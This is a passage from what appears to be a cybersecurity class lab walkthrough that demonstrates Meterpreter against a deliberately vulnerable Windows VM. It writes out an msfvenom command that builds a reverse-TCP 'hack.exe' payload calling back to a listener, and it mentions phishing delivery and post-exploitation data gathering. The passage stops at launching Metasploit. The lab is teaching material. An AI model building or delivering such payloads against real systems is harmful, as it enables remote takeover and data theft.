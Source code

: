 In the following demonstration, we will complete the following steps: 

- Use our Kali machine to create a custom payload that we will use to exploit a vulnerable Windows host (DVW10).

- Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.


#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command. We will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   ![MSF 1](Images/MSF_1.png)


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - A major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 
